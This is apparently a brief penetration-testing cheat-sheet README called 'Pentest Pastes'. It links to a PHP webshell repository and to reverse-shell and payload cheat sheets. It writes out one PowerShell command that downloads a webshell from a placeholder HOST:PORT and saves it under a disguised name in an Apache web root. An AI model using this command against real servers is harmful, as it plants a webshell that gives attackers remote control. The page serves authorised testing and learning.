 # Pentest Pastes
One stop shop for all quick lookups for exploitations (one liners, diff techs, rev shells, etc)

# Webshells
- [WhiteWinterWolf php webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

# Powershell
- fetch file `powershell "(New-Object System.Net.WebClient).DownloadFile('http://HOST:PORT/webshell.php', 'C:\Apache24\htdocs\SOME_DIR\BLEND_ING.php')"`

# Resources
- http://threatexpress.com/blogs/2019/penetration-testing-pasties/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
  - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources
- https://pentestmonkey.net/cheat-sheet
